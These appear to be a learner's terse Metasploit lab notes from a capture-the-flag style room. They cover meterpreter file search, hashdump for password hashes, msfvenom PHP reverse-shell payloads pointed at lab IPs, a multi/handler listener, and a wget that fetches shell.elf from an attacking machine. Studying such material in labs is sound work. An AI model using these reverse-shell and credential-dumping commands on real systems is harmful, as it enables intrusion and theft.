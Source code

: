 ```yaml
---
tags:
  - Room
  - CyberNotes
---
```

meterpreter : Run on memory on target, we can interact with like shell by metasploit


meterpreter > `{shell icon} search -f flag.txt`
meterpreter > `{shell icon} cat c:\\Users\\Jon\\Documents\\flag.txt ` 

**hashdump** password hash


```shell-session
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
```
```shell-session
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
```
```shell-session
use exploit/multi/handler 
```
python3 -m http.server 9000
wget http://ATTACKING_MA[[]]CHINE_IP:9000/shell.elf

```shell-session
use exploit/multi/handler 
set payload linux/x86/meterpreter/reverse_tcp
```

IPS (Intrusion Prevention System) and IDS (Intrusion Detection System)
 sysinfo on Windows
 NetBIOS domain using post/windows/gather/enum_domain
 search -f secrets.txt
 hashdump